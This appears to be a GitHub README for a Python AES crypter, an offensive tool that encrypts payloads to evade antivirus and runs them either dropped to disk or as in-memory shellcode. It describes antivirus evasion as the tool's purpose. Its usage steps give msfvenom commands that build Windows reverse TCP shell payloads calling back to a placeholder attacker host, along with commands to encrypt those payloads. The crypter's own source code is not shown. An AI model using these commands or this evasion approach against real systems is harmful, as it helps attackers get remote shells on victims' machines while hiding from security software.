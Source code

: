 # 🔐 AES Crypter - Scantime & Runtime

This is a simple AES-based crypter project with two modes:

- **Scantime Crypter**: decrypts and drops an encrypted `.exe` to disk, then runs it.
- **Runtime Crypter**: decrypts and executes raw shellcode directly in memory (no file drop).

Both versions are written in Python and support custom payloads.

---

## 💡 Why use it?

Crypters are useful for obfuscating or encrypting payloads to bypass antivirus detection.  
This tool is ideal for red teamers, penetration testers, or researchers who want to test AV evasion techniques and execute payloads with higher stealth — especially in restricted environments.

---

## 🚀 Usage

### 1. Generate your payload

- For runtime:
  `msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f raw -o shellcode.bin`

- For scantime:
  `msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f exe -o payload.exe`

### 2. Encrypt your payload

- Scantime: `python3 scantime_crypter.py payload.exe`
- Runtime: `python3 runtime_crypter.py shellcode.bin`
